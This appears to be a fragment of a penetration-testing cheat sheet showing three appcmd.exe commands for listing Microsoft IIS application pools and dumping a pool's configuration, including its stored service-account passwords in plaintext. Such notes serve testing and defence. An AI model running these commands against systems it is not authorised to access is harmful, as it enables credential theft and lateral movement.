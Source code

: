 ### To extract passwords from app pools in Microsoft IIS Web Server

```
cd %systemroot%\system32\inetsrv
appcmd.exe list apppool
appcmd list apppool "NameofAppPool" /text:*
```
